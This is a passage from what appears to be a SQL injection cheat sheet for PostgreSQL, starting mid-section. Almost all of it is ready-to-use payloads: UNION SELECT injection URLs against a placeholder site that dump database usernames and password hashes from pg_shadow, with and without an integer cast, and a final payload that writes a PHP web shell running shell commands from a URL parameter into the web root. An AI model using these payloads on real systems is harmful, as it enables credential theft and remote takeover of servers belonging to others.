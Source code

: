 ```
If that doesn't work, try the same query without doing the casting to int:  
```http://website.com/products/detail?id=-1' union select usename,null,null,null,null from pg_shadow--```  

Dump postgres user's password:  
```'+union+select+cast(passwd+as+int),null,null,null,null++FROM+pg_shadow--```  
If that doesn't work, try the same query without doing the casting to int:   
```http://website.com/products/detail?id=-1' union select passwd,null,null,null,null from pg_shadow--```  

### Write file (Webshell)

```UNION SELECT '<?php $out = shell_exec($_GET["x"]); echo "<pre>$out</pre>";?>' \g /var/www/test.php; --```

